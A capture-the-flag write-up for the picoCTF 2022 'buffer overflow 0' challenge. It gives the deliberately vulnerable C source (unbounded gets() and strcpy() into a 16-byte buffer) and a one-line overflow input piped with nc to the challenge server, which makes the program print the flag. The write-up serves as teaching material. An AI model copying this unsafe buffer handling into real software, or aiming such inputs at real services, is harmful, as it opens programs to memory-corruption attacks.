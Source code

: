 # buffer overflow 0

Tags: picoCTF 2022, Binary Exploitation, gets

| Author | Point    |
| ------ | -------- |
| ALEX FULTON / PALASH OSWAL | 100 points |

## Description

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Connect using:  
nc saturn.picoctf.net 62006  

## Hints

1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?

## Solve

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```



```bash
$ python3 -c 'print("A"*256)' | nc saturn.picoctf.net 62006
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```

## Flag

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```